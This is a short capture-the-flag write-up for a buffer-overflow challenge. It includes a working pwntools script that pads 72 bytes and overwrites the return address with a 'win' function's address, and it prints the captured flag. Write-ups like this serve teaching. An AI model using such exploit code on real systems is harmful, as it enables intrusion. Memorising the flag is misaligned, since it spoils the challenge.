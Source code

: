 # _baby-bof_

Category | Value
-- | --
Pwn | 500

I instantly recognized this as a classic buffer overflow challenge and already had an exploit nearly ready. I verified the binary for symbols with `objdump`/`readelf` and found a `win` function.

Using a simple remote exploit, overflow the return address with a 72-byte padding and overwrite it with the `win` address, got me the flag.

### Exploit (cleaned)

```python
from pwn import *

p   = remote("ctf.ac.upt.ro", 9232)
elf = ELF("./challenge")
win = elf.symbols["win"]

payload  = b"A" * 72
payload += p64(win)

p.sendlineafter(b"Spune ceva:", payload)
p.interactive()
```

Works because the saved return address sits 72 bytes after the buffer; jumping to `win` triggers the desired behavior.

## Proof-of-flag
```
ctf{3c1315f63d550570a690f693554647b7763c3acbc806ae846ce8d25b5f364d10}
```

